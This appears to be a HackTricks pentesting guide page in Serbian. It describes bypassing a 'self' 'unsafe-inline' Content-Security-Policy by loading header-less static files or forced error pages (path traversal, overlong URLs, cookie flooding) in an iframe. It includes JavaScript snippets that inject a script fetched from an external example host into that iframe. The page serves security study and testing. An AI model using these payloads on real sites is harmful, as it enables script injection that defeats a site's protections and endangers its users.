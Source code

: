 {{#include ../../banners/hacktricks-training.md}}

Konfiguracija kao što je:
```
Content-Security-Policy: default-src 'self' 'unsafe-inline';
```
Zabranjuje korišćenje bilo kojih funkcija koje izvršavaju kod prenet kao string. Na primer: `eval, setTimeout, setInterval` će svi biti blokirani zbog podešavanja `unsafe-eval`.

Svi sadržaji iz spoljašnjih izvora su takođe blokirani, uključujući slike, CSS, WebSockets, i, posebno, JS.

### Putem Teksta i Slika

Primećeno je da moderni pregledači konvertuju slike i tekstove u HTML kako bi poboljšali njihovu prikaz (npr. postavljanje pozadina, centriranje, itd.). Kao rezultat, ako se slika ili tekstualna datoteka, kao što su `favicon.ico` ili `robots.txt`, otvori putem `iframe`, prikazuje se kao HTML. Važno je napomenuti da ove stranice često nemaju CSP zaglavlja i možda neće uključivati X-Frame-Options, omogućavajući izvršavanje proizvoljnog JavaScript-a iz njih:
```javascript
frame = document.createElement("iframe")
frame.src = "/css/bootstrap.min.css"
document.body.appendChild(frame)
script = document.createElement("script")
script.src = "//example.com/csp.js"
window.frames[0].document.head.appendChild(script)
```
### Putem Grešaka

Slično, odgovori sa greškama, poput tekstualnih fajlova ili slika, obično dolaze bez CSP zaglavlja i mogu izostaviti X-Frame-Options. Greške se mogu izazvati da se učitaju unutar iframe-a, omogućavajući sledeće radnje:
```javascript
// Inducing an nginx error
frame = document.createElement("iframe")
frame.src = "/%2e%2e%2f"
document.body.appendChild(frame)

// Triggering an error with a long URL
frame = document.createElement("iframe")
frame.src = "/" + "A".repeat(20000)
document.body.appendChild(frame)

// Generating an error via extensive cookies
for (var i = 0; i < 5; i++) {
document.cookie = i + "=" + "a".repeat(4000)
}
frame = document.createElement("iframe")
frame.src = "/"
document.body.appendChild(frame)
// Removal of cookies is crucial post-execution
for (var i = 0; i < 5; i++) {
document.cookie = i + "="
}
```
Nakon aktiviranja bilo kojeg od pomenutih scenarija, izvršavanje JavaScript-a unutar iframe-a je moguće na sledeći način:
```javascript
script = document.createElement("script")
script.src = "//example.com/csp.js"
window.frames[0].document.head.appendChild(script)
```
## Reference

- [https://lab.wallarm.com/how-to-trick-csp-in-letting-you-run-whatever-you-want-73cb5ff428aa/](https://lab.wallarm.com/how-to-trick-csp-in-letting-you-run-whatever-you-want-73cb5ff428aa/)

{{#include ../../banners/hacktricks-training.md}}
